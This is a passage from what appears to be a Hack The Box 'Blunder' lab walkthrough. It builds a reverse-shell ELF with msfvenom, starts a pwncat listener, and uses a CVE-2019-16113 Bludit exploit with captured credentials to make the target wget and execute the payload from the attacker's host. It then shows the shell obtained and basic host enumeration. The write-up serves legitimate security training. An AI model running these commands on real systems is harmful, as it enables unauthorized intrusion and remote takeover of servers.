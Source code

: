 So we can generate a reverse shell with `msfvenom` (part of [msf][msf]):

```
$ msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=10.10.14.82 LPORT=9999 -f elf > revshell.elf
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

Start a listener with [pwncat][pwncat]:

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
```

Upload & execute our reverse shell:

```
$ python 48568.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c 'wget http://10.10.14.82:8888/revshell.elf && chmod +x revshell.elf && ./revshell.elf'


╔╗ ┬  ┬ ┬┌┬┐┬┌┬┐  ╔═╗╦ ╦╔╗╔
╠╩╗│  │ │ │││ │   ╠═╝║║║║║║
╚═╝┴─┘└─┘─┴┘┴ ┴   ╩  ╚╩╝╝╚╝

 CVE-2019-16113 CyberVaca


[+] csrf_token: 1f60ba2db4a30cade52205468c95b5f33e408bc3
[+] cookie: 3a679ict7buj7aqkmff6e132f3
[+] csrf_token: 6c3f1bf1c0455dfabb3c539367629f6cb21298da
[+] Uploading ggllqvlr.jpg
[+] Executing command: wget http://10.10.14.82:8888/revshell.elf && chmod +x revshell.elf && ./revshell.elf
[+] Delete: .htaccess
[+] Delete: ggllqvlr.jpg
```

And we obtain a shell:

```
INFO: Client connected from 10.10.10.191:53416 (family 2/IPv4, TCP)

which python
/usr/bin/python

python -c 'import pty;pty.spawn("/bin/bash")'

www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ uname -a
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cat /etc/os-release
NAME="Ubuntu"
VERSION="19.10 (Eoan Ermine)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 19.10"
VERSION_ID="19.10"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=eoan
```